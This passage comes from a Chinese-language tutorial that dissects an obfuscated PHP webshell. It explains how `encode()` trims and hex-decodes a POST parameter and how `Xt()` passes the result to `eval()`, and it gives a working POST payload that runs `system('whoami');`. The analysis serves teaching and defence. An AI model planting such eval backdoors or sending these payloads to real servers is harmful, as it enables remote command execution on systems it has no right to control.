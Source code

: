 这时候，就可以执行 POST 传参：`num=2&Qxi*37yz=6173797374656d282777686f616d6927293b62` 来执行 whoami 命令

这个 PHP 内定义了两个函数，分别是 `encode()` 和 `Xt()`，我们先看 `encode()`：

```plain
function encode(){
    $num1=base64_encode($_POST['num']);
    $num=base64_decode($num1);
    echo "1";
    foreach($_POST as $k => $v){
        $_POST[$k] = pack("H*",(substr($v,$num,-$num)));
    }
    @$post=base64_encode($_POST['Qxi*37yz']);
    @$post1=base64_decode(@$post);
    return $post1;
}
```

传入了两个参数，参数名分别为 `num` 和 `Qxi*37yz`，这个函数的输出为 `$post1`，关键就在于以下这一行代码：

```plain
foreach($_POST as $k => $v){
    $_POST[$k] = pack("H*",(substr($v,$num,-$num)));
}
```

然后我们根据上文提到的知识点 0.8、1.5 和 2.1 以及 2.4，可以了解到这一行代码的意思：

-   `substr()` 函数将传进去的 `Qxi*37yz` 参数字符串，删掉前 `num` 个字符和后 `num` 个字符（截取中间部分的内容）
-   `pack("H*",...)` 函数将处理后的 `Qxi*37yz` 参数字符串进行十六进制编码转换
-   `foreach()` 将原本的 `$_POST` 变量替换为经过十六进制编码转换后的字符串

注：这里可能有些绕，多上手尝试一下就明白了

接下来我们来看 `Xt()` 这个函数：

```plain
function Xt(){
    return eval($this->encode());
}
```

它将 `encode()` 函数的执行结果带入到 `eval()` 高危函数当中，即：

```plain
function Xt(){
    return eval($post1);  //encode() 函数的输出为$post1
}
```

那假设我们要执行 `whoami` 命令，那就要让 `$post1` 等于 `system('whoami');`，这没毛病吧？

所以结合来看，我们先要生成 16 进制的字符串：
